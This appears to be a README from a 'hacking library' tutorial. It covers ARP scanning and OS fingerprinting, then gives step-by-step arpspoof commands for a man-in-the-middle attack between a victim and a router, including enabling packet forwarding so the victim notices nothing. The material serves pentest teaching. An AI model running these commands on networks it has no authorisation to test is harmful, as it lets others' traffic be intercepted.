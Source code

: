 # Introduction to Hacking Library

The goal of this library is to create an archive of useful tools and how to use them, mostly for:

- Hacking
- Pentests 
- Security

Remember, this is only a guide, use the knowledge here wisely and at your own risk.

Have fun!

# Analysis Tools 

## ARP

The ARP protocol (Address Resolution Protocol) associates every MAC address with an IP address in the local network. The way this works is with a broadcast in the local network, asking every host about their pairs IP/MAC. Every time a broadcast occurs the host sends his own pair IP/MAC besides asking other hosts their pairs, so it can be saved into a cache in every machine.

You can check the cache in your own machine with:

```console
arp -a
```

Using ARP protocol you can either scan your local network to discover hosts, revealing their MAC addresses and internet adapter manufacturer:

```console
sudo arp-scan --interface=eth0 --localnet
```

or try to guess the OS of the hosts with:

```console
sudo arp-fingerprint -l
```

# Attack Tools

## ARP Spoofing

The objective of this attack is to add/replace some entries in the ARP table making the router believe that the attacker is in reality the victim and making the victim believe that the attacker is the router.

![ARP Spoofing Image](/img/ARP%20Spoofing.png)

### Enabling fowarding

First you need to enable fowarding of packets so the victim doesn't know that something happened.

#### Temporary fowarding:

For temporary fowarding (this will disable fowarding when the machine is rebooted):

```console
sudo sysctl -w net.ipv4.ip_forward=1
```

or 

```console
 sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### Permanent fowarding:

```console
 sudo nano /etc/sysctl.conf
```

then find the line:

```
#Uncomment the next line to enable packet forwarding for IPv4
#net.ipv4.ip_forward=1
```

and delete the "#" in the second line:

```
#Uncomment the next line to enable packet forwarding for IPv4
net.ipv4.ip_forward=1
```

then

> Ctrl o

> Enter

> Ctrl x

and finally run this to apply the changes:

```console
 sudo sysctl -p /etc/sysctl.conf
```

### Making a man in the middle with Arpspoof:

To make this we will use this command two times:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {TARGET_IP} {IP_YOU_WILL_BE_PRETENDING_TO_BE}
```

#### First terminal:

First to make the router think that our machine is the victim:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {ROUTER_IP} {VICTIM_IP}
```

Example:

```console
 sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.104
```

#### Second terminal:

Then we make the victim think that our machine is the router:

```console
 sudo arpspoof -i {NETWORK_INTERFACE} -t {VICTIM_IP} {ROUTER_IP}
```

Example:

```console
 sudo arpspoof -i eth0 -t 192.168.0.104 192.168.0.1
```

and with this we have a man in the middle set.